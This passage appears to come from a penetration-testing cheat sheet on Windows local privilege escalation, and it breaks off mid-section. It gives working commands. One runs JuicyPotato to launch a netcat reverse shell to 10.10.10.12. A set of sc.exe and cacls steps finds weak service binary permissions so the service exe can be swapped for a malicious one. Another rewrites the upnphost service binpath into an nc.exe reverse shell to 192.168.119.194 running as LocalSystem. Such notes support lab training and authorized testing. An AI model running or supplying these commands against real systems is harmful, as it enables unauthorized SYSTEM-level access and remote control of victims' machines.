 - [Juicy-Potato-description](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)
- [Juicy-Potato release](https://github.com/ohpe/juicy-potato/releases)

##### Usage
We will need `CLSID`'s to use for the scrip. Either by running the script [Get-CLSID.ps1](https://ohpe.it/juicy-potato/CLSID/GetCLSID.ps1) or by finding the corresponding one inside this [list](https://ohpe.it/juicy-potato/CLSID/) and use psexec to change to a service account: [pstools](https://download.sysinternals.com/files/PSTools.zip)

```powershell
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *
# or 
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

#### Windows Services

##### sc.exe

```cmd
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

`cacls "C:\path\to\file.exe"`

we want to look for `BUITIN/users:(F)` or when our user/usergroup has `(F)` or `(C)` rights.

then we can just replace that exe with our own malicious exe and rerun the service:

`net stop [service name] && net start [service name].`

###### Example

```sh
sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.119.194 443 -e c:\Windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
sc qc upnphost
net start upnphost
```

##### Microsoft systems internal suite

This system's internal suite: [Link](https://download.sysinternals.com/files/SysinternalsSuite.zip) contains a variety of scripts that can be used to check user privileges.

Now we can use the following: 
